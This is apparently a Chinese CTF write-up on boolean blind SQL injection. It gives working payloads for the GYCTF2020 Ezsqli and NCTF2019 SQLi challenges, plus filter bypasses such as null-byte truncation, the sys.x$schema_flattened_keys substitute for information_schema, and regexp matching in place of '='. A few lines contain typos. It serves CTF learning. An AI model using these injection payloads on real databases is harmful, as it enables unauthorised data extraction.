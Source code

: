 >
>   



### 3、bool盲注

>   **注入时可以考虑使用【%00】【\x00】截断，在数据库不会执行后面的语句**
>
>   **mysql默认关闭InnoDB存储引擎，未关闭可以使用`mysql.innodb.table_stats`代替`information_schema`**



####  **[GYCTF2020]Ezsqli 1**

>   **判断注入点payload：【1&&1=1】和【1&&1=2】**

```nginx
id=0^(ascii(substr((select(flag)from(flag)),1,1))>101)
if(ascii(substr(database(),%d,1))>%d,1,0)
1^(ascii(substr(database(),1,1))>1)
1||length(dataase())>1

ascii(substr(select(GROUP_CONCAT(table_name))FROM(information_schema.tables)))
```

**`information_schema`被过滤使用`sys.x$schema_flattend_key`**

```sql
substr((select group_concat(table_name) from sys.x$schema_flattened_keys where table_schema=database()),1,1)='f'
```



#### **[NCTF2019]SQLi（正则盲注）**

```json
{
   "username": "\\",
   "passwd": '||/**/passwd/**/regexp/**/"^a";\x00'
}
```

**基本注入案例**

```sql
-- 正常注入语句
select username from users where id = 1;

-- 正则注入，如果username的第一个字符是a返回1，不是a返回0
select (select username from users where id=1) regexp '^a';

-- 联合查询中爆破数据库名
1 union select 1,database() regexp '^s',3--+
```

>   **regexp可以代替where条件中的 = 号**
>
>   **当过滤了【=】【in】【like】的时候就可以使用这个办法**
>
>   **【^】被过滤也可以使用【$】从后往前匹配**
